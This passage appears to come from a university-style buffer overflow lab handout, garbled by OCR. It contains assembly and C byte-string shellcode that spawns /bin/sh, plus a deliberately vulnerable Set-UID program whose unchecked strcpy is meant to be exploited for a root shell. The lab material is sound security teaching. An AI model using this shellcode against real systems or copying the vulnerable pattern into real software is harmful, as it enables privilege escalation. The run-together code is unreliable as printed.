 |  xorrdx, rdx ; rdx = 0: execve()’s 3rd argumentpushrdxmovrax,’/bin//sh’; the command we want to run pushrax ; movrdi, rsp ; rdi --> "/bin//sh": execve()’s 1st argument pushrdx ; argv[1] = 0 pushrdi; argv[0] --> "/bin//sh"movrsi, rsp; rsi --> argv[]: execve()’s 2nd
  argumentxorrax, raxmov al, 0x3b; execve()’s system

| call numbersyscall |
| ------------------ |

Task: Invoking the Shellcode

We have generated the binary code from the assembly code
above, and put the code in a C program called callshellcode.c inside the shellcode
folder. If you would like to learn how to generate the binary code yourself,
you should work on the Shellcode lab. In this task, we will test the shellcode.

Listing 1: callshellcode.c

|  #include<stdlib.h> #include<stdio.h>#include<string.h> const charshellcode[] = #if__x86_64__ "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e" "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57" "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05" #else "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31" "\xd2\x31\xc0\xb0\x0b\xcd\x80" #endif; intmain(intargc,char**argv) {charcode[500]; strcpy(code, shellcode);// Copy the

| shellcode to the stackint(*func)() = (int(*)())code; func(); // Invoke the shellcode from the stackreturn1; } |
| --------------------------------------------------------------------------------------------------------------- |

The code above includes two copies of
shellcode, one is 32-bit and the other is 64-bit. When we compile the program
using the -m32 flag, the 32-bit version will be used; without this flag, the
64-bit version will be used. Using the provided Makefile, you can compile the
code by typing make. Two binaries will be created, a32.out (32-bit) and a64.out
(64-bit). Run them and describe your observations. It should be noted that the
compilation uses the execstack option, which allows code to be executed from
the stack; without this option, the program will fail.

Task 2: Understanding the Vulnerable Program

The vulnerable program used in this lab is called stack.c,
which is in the code folder. This program has a buffer-overflow vulnerability,
and your job is to exploit this vulnerability and gain the root privilege. The
code listed below has some non-essential information removed, so it is slightly
different from what you get from the lab setup file.

Listing 2: The vulnerable program (stack.c)

|  #include<stdlib.h> #include<stdio.h> #include<string.h> /* Changing this size will change the layout
  of the stack. * Instructors can change this value each
  year, so students * won’t be able to use the solutions from
  the past. */ #ifndefBUF_SIZE #defineBUF_SIZE 100 #endif intbof(char*str) {charbuffer[BUF_SIZE]; /* The following statement has a buffer

| overflow problem */strcpy(buffer, str); return1; } intmain(intargc,char**argv) {charstr[517]; FILE *badfile; badfile = fopen("badfile","r"); fread(str,sizeof(char), 517, badfile); bof(str); printf("Returned Properly\n");return1; } |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

The above program has a buffer overflow
vulnerability. It first reads an input from a file called badfile, and then
passes this input to another buffer in the function bof(). The original input
can have a maximum length of 517 bytes, but the buffer in bof() is only BUFSIZE
bytes long, which is less than 517. Because strcpy() does not check boundaries,
buffer overflow will occur. Since this program is a root-owned Set-UID program,
if a normal user can exploit this buffer overflow vulnerability, the user might
be able to get a root shell. It should be noted that the program gets its input
from a file called badfile. This file is under users’ control. Now, our
objective is to create the contents for badfile, such that when the vulnerable
program copies the contents into its buffer, a root shell can be spawned.
